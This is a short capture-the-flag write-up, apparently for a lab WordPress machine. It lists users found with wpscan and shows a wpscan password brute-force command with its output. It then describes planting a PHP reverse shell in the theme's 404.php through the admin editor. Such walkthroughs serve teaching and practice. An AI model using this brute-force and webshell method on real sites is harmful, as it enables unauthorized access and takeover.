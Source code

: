 ## /hidden directory has the following:

C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip


## Users found using wpscan:
-hugo
-philip
-c0ldd

## using wpscan to brute force, we get c0ldd's credentials
```bash 
wpscan --url http://10.10.228.176/ -U c0ldd,hugo,philip /usr/share/wordlists/rockyou.txt

[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

```


### several options after logging in. first step would be to try to get a shell using php reverse shell. we can try to upload a php plugin or edit an existing page.

I chose to change the 404.php page to exec the php reverse shell. 
This can be edited by going to Appearance > Editor

Visiting the 
http://10.10.226.162/wp-content/themes/twentyfifteen/404.php
will exec the code.


